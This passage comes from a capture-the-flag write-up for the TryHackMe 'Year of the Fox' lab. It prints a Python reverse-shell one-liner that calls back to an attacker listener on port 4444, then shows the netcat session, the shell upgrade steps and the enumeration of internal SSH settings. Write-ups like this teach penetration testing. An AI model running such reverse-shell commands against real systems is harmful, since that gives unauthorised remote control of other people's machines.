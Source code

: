```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.83.156",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{: .nolineno}
{: .nolineno}

Now I got the payload and the web flag →

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/yotf]
└─$ nc -lvnp 4444                 
listening on [any] 4444 ...
connect to [10.8.83.156] from (UNKNOWN) [10.10.17.75] 34996
/bin/sh: 0: cant access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@year-of-the-fox:/var/www/html/assets/php$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                                                                
┌──(kali㉿kali)-[~/Downloads/Tryhackme/yotf]
└─$ stty raw -echo ;  fg ; reset ;
[1]  + continued  nc -lvnp 4444

www-data@year-of-the-fox:/var/www/html/assets/php$ 
www-data@year-of-the-fox:/var/www/html/assets/php$ cd /
www-data@year-of-the-fox:/$ cd /tmp
www-data@year-of-the-fox:/tmp$ ls -al
total 8
drwxrwxrwt  2 root root 4096 Sep 21 16:46 .
drwxr-xr-x 22 root root 4096 May 29  2020 ..
www-data@year-of-the-fox:/tmp$ 
www-data@year-of-the-fox:/tmp$ export TERM=xterm
www-data@year-of-the-fox:/tmp$
```
{: .nolineno}
{: .nolineno}

Now I checked the network interface to see what else is running and I got this →

```bash
www-data@year-of-the-fox:/tmp$ ss -tunlp | grep 127.0.0.1
tcp   LISTEN  0        128                127.0.0.1:22            0.0.0.0:*                                                                                     
www-data@year-of-the-fox:/tmp$
```
{: .nolineno}
{: .nolineno}

Since port 22 is running internally and not externally so lets check its ssh configuration file →

```bash
www-data@year-of-the-fox:/tmp$ cat /etc/ssh/sshd_config 
#	$OpenBSD: sshd_config,v 1.101 2017/03/14 07:19:07 djm Exp $

# This is the sshd server system-wide configuration file.  See
# sshd_config(5) for more information.

# This sshd was compiled with PATH=/usr/bin:/bin:/usr/sbin:/sbin

# The strategy used for options in the default sshd_config shipped with
# OpenSSH is to specify options with their default value where
# possible, but leave them commented.  Uncommented options override the
# default value.

#Port 22
#AddressFamily any
ListenAddress 127.0.0.1 
```